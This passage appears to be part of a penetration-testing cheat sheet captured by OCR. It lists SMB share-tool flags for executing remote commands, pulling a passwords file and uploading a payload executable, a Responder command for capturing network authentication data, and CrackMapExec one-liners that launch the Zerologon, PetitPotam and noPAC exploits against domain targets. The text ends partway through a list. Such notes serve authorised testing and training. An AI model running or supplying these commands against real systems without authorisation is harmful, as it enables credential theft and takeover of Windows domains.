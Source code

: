     ```bash
    -A <file>: Load a list of shares from a file, one share per line.
    ```
*   **Quiet Mode:**

    ```bash
    -q: Suppress informational messages, displaying only share information.
    ```
*   **Executing Commands:**

    ```bash
    -x <command>: Execute a custom command on a share.
    ```
*   **Filesystem Interaction:**

    ```bash
    --download PATH: Download a file from the remote system, ex.'C$\temp\passwords.txt'
    --upload SRC DST: Upload a file to the remote system ex. '/tmp/payload.exe C$\temp\payload.exe'
    --delete PATH TO FILE: Delete a remote file, ex. 'C$\temp\msf.exe'
    --skip: Skip delete file confirmation prompt
    ```

#### \[\[Responder Cheat Sheet]]

*   **Run Responder:** Intercept and capture NetBIOS session data for further analysis and exploitation.

    ```bash
    responder -I <interface> -rdwv
    ```

#### \[\[NetExec]]

#### \[\[CrackMapExec]]

*   **Zerologon:**

    ```bash
    crackmapexec smb <target_ip> -u '' -p '' -M zerologon
    ```
*   **PetitPotam:**

    ```bash
    crackmapexec smb <target_ip> -u '' -p '' -M petitpotam
    ```
*   **noPAC:** This requires credentials.

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M nopac
    ```
*   **Map network hosts:**

    ```bash
    crackmapexec smb 192.168.1.0/24
    ```
*   **Enumerate Null Sessions:**
